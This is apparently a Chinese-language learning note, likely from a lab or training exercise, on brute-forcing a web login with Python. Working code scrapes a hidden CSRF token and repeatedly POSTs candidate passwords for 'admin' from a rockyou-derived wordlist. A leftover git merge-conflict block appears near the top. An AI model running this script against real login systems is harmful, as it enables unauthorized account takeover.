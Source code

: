 # 1.python request模块进行破解

1. 今日份目标：暴力破解成功

2. 流程：使用python进行任务


<<<<<<< HEAD

## 2.步骤如下

> > > > 1. 用request模块请求url
=======
>>>>>>> a20a7accc9b00a85b6c1db3456b0597ebf94719b

# 2.步骤如下

1. 用request模块请求url
2. 对于返回包进行切片操作，获取其中的token值
3. 将获取到的token值与字典一起发送进行暴力破解





# 3.步骤开始

[参考网址](<http://docs.python-requests.org/zh_CN/latest/user/quickstart.html>)

[参考网址1：用来request的用法](<https://blog.csdn.net/LOLITA0164/article/details/80176996>)

[参考网址2：最终实现方法](<https://blog.csdn.net/Danielntz/article/details/51861168>)

[参考网址3:获取token](eed1183184514fde0ef6310575f14458)

## 3.1Token获取代码如下：

```txt
import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

host = "http://打码用***打码用/c/hdyzma/"

page = urllib.request.urlopen(host)
contents = page.read()

soup = BeautifulSoup(contents,"html.parser")
#soup的用法

print(soup.find('input',style='display:none')['value'])
#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值

```

## 3.2 字典取list

[参考网址1：编码问题](<https://www.cnblogs.com/mengyu/p/6638975.html>)



---

坑点二：文件操作问题 [参考网址](<https://www.cnblogs.com/zarr12steven/p/6206600.html>)

遇到的情况：

Traceback (most recent call last):
  File "03_crake.py", line 5, in <module>
    get = f.readline()
io.UnsupportedOperation: not readable

解决方法：open函数里 'a' 改为'r'

---

---

坑点三：rockyou.txt出现编码问题

原因：rockyou文本太大，里面有一下密码会导致编码出错无法读取之类的

解决办法：新建一个simple文本，填入大概100个密码

---

---

坑点四：发包之后显示token错误

原因：发的包里没有sessionid

解决办法：加进去

解决代码：`s = requests.session()`

​			`s.get   s.post`

---

## 3.3 循环

`for get in gets`





# 4. 完成！

最后代码如下：

```txt

import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

import requests

gets = open("C:/Users/Elliot/Desktop/python_req_crack/simple.txt","r").read().splitlines()

host = "http://打码用***打码用/c/hdyzma/"

s = requests.session()


for get in gets:
    contents = s.get(host,proxies={'http': 'http://127.0.0.1:8080'}).content
    soup = BeautifulSoup(contents, "html.parser")
# soup的用法
    token = soup.find('input', style='display:none')['value']

    #print(token)


#for line in f.readlines():

    print(get)
   # print(line)

#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值


    url = host+'welcome.php'
    d = {'name': 'admin','password':get,'token':token }
    r = s.post(url, data=d,proxies={'http': 'http://127.0.0.1:8080'})
    r.encoding = 'UTF-8'
    print(r.text)
```



